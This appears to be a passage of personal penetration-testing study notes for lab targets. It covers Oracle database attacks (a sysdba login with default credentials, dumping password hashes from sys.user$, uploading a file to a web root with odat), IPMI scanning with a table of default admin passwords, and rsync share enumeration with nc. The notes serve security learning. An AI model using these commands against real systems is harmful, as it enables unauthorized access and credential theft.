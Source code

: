 ```sql
select table_name from all_tables;
select * from user_role_privs;
```

### switching to (sysdba)
possible when the user has the appropriate privileges typically granted by the database administrator or used by the administrator him/herself.
```shell
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
### dump passwords hashes

```sql
select name, password from sys.user$;
```

### uploading a file 
```shell
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```


# #IPMI

### Footprinting
```shell
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

### Metasploit Version Scan

```shell
Metasploit use auxiliary/scanner/ipmi/ipmi_version 
```

### Default passwords

| Product         | Username      | Password                                                                  |
| --------------- | ------------- | ------------------------------------------------------------------------- |
| Dell iDRAC      | root          | calvin                                                                    |
| HP ILO          | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN         | ADMIN                                                                     |

### #RSYNC

- Used for copying, backups, list shares ... etc, over ssh
- <a href="https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync" >Hacktricks</a>
```shell
 nc -nv 127.0.0.1 873

(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
dev            	Dev Tools
@RSYNCD: EXIT
```
